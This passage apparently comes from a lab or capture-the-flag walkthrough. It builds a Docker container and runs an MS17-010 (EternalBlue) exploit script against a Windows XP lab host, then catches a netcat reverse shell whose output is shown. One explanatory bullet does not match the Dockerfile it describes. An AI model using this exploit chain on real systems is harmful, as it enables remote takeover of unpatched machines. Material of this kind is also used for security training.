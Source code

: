 ```
FROM python:2.7-alpine
RUN apk --update --no-cache add \
    git \
    zlib-dev \
    musl-dev \
    libc-dev \
    gcc \
    libffi-dev \
    openssl-dev && \
    rm -rf /var/cache/apk/*

RUN mkdir -p /opt/exploit
COPY requirements.txt /opt/exploit
COPY ms17-010.exe /opt/exploit
WORKDIR /opt/exploit
RUN pip install -r requirements.txt
```

* `FROM python:2.7-alpine`: Uses a lightweight Alpine Linux image with Python 2.7.
* `RUN apk --update --no-cache add`: Installs necessary dependencies (e.g., `git`, `gcc`).
* `COPY rev.exe /opt/cattime`: Copies the reverse shell executable (`rev.exe`) into the container.
* `RUN pip install -r requirements.txt`: Installs Python dependencies (e.g., `impacket`).

Build the Docker Container:

```
sudo docker build -t exploit .
```

Run the Container:

```
sudo docker run -it exploit /bin/sh
```

Downloading and Running the Exploit:

```
git clone https://github.com/n3rdh4x0r/MS17-010_CVE-2017-0143.git
```

```
cd MS17-010_CVE-2017-0143
```

```
python send_and_execute.py 10.10.10.4 ../ms17-010.exe
```

Reverse Shell:

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.4] 1035
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
